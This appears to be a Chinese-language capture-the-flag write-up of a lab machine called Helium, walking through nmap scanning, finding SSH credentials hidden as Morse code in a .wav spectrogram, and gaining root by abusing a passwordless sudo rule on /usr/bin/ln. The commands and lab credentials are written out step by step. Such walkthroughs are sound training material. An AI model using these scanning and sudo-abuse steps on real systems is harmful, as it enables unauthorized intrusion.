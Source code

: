 > ⏲️ Release Date // 2020-11-22
>
> ✔️ MD5 // 6c034ba16620358483d344f0572ad020
>
> ☠ Root // 187
>
> 💀 User // 191

### 主机探测和nmap扫描

进行TCP全端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.56.123
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 09:27 EDT
Nmap scan report for 192.168.56.123
Host is up (0.00054s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:6C:D1:C6 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.09 seconds
```

进行22，80端口详细信息扫描

```bash
nmap -sT -sV -sC -O -p22,80 192.168.56.123
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:f6:55:5f:c6:fa:fb:14:15:ae:4a:2b:38:d8:4a:30 (RSA)
|   256 b7:ac:87:6d:c4:f9:e3:9a:d4:6e:e0:4f:da:aa:22:20 (ECDSA)
|_  256 fe:e8:05:af:23:4d:3a:82:2a:64:9b:f7:35:e4:44:4a (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: RELAX
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:6C:D1:C6 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.29 seconds
```

### web渗透

访问web页面，发现提示

> <!-- Please paul, stop uploading weird .wav files using /upload_sound -->

得到一个人名paul，知道一个目录

/upload_sound

> Upload disabled (or not).

测试是否可以上传文件

```bash
curl -T test http://192.168.56.123/upload_sound
```

```
<html>
<head><title>405 Not Allowed</title></head>
<body bgcolor="white">
<center><h1>405 Not Allowed</h1></center>
<hr><center>nginx/1.14.2</center>
</body>
</html>
```

不能上传文件

### 目录扫描

```
http://192.168.56.123/upload_sound/
http://192.168.56.123/yay/
http://192.168.56.123/bootstrap.min.css
```

访问`bootstrap.min.css`

> /yay/mysecretsound.wav

得到一个wav文件

使用 `audacity` 进行查看

![image-20240525220414499](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240525220414499.png)

发现频谱图存在信息，使用 [Morse Code Adaptive Audio Decoder | Morse Code World](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) 进行查看

发现提取出来两份字符串：

```plaintext
ETAIE4SIET
dancingpassyo
```

猜测可能是ssh的凭据

> paul:dancingpassyo成功进入

### 提权

#### sudo提权

```bash
sudo -l
```

```bash
paul@helium:~$ sudo -l
Matching Defaults entries for paul on helium:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln
```

利用ln进行提权

```bash
paul@helium:~$ sudo /usr/bin/ln -fs /bin/bash /bin/ln
# cat /root/root.txt
ilovetoberoot
```

> -f, --force     强行删除任何已存在的目标文件
>
> -s, --symbolic              对源文件建立符号连接，而非硬连接

```sh
# ls -ls /bin/ln
0 lrwxrwxrwx 1 root root 7 May 25 09:52 /bin/ln -> /bin/sh
```

拿到root.txt